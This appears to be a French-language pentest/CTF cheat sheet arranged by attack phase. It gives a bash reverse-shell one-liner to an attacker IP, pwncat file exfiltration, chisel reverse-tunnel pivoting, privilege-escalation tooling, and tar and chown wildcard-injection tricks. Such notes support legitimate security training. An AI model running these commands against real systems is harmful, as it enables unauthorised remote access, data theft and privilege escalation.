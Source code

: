 # Reconnaissance
# Scanning & Enumeration

# Lateral movement
## Amelioration du shell
- Si python n'est pas présent 
<code> script /dev/null -c bash</code>
ou
```console
script /dev/null -c bash
ctrl-z
stty raw -echo; fg
Enter twice
```



# Exploitation (Gaining Access)
# Exfiltration de données
Utilisation de pwncat:
1. Côté attaquant:
<code>pwncat-cs -lp 1337</code>

2. Côté cible
<code>bash -c 'bash -i >& /dev/tcp/$YOUR_IP/1337 0>&1'</code>

3. Côté attaquant
<code>download /chemin/fichier</code>

# Rebond 
## Resources
1. Etat de l'art
https://www.orangecyberdefense.com/fr/insights/blog/ethical-hacking/etat-de-lart-du-pivoting-reseau-en-2019
2. Machines HTB
Rebond avec chisel: 
    - Talkative
## Rebond avec chisel
Lien vers le binaire: https://github.com/jpillora/chisel/releases/ 
1. Sur la machine de l'attaquant:
```shell
./chisel server --reverse -p 8000
```
2. Sur la machine rebond:
```shell
./chisel client <adresse_attaquant>:8000 R:<port_localhost>:<adresse_cible>:<port_cible>
```
3. Accéder au port cible de la machine distante
joindre localhost:<port_localhost>

# Privilege Escalation
## Recherche de défaut de configuration et de vulnérabilités
### Utilisation de pspy
Si /proc est monté avec hidepid=2 il n'est pas possible lister les process d'autres utilisateurs
Le script peut-être trouvé ici: https://github.com/DominicBreuker/pspy.git 
### Utilisation de linpeas
Lien vers le binaire: https://github.com/carlospolop/PEASS-ng/releases
## Lister les capabilities
```console
capsh --print
```
Liste des exploists liés aux capabilities https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_dac_read_search 

## Wildcard 
Source: https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

### File owner hijacking via Chown
chown -R <utilisateur>:<group> *.extension
Peut être bypassé par l'option --reference=<autre_fichier> qui confère au propriétaire de <autre_fichier> l'ensemble des fichiers visé par le chown.  
Il est également possible d'ajouter un fichier avec la commande suivante:
```console
echo "" > monfichier.extension
echo > --reference=monfichier.extension
```
Ainsi quand la commande sera exécuté les fichiers prendront le propriétaire et le groupe de monfichier.extension

### Tar Wildcard Injection
La commande tar permet aussi l'exécution de commande grâce aux options:  
```console
--checkpoint-action=exec=sh shell.sh
--checkpoint=1
```
checkpoint permet d'afficher un messages pour x compression (par défaut 10)
checkpoint-action=ACTION permet d'éxécuter une ACTION à chaque checkpoint.

### Rsync execution
L'option -e de l commande rsync permet d'executer une commande ssh sur l'hôte distant.

# Command & Control (Persistence/Maintaining Access)
# Clearing Tracks (usually not necessary in CTF’s, but good practice)

# Resources
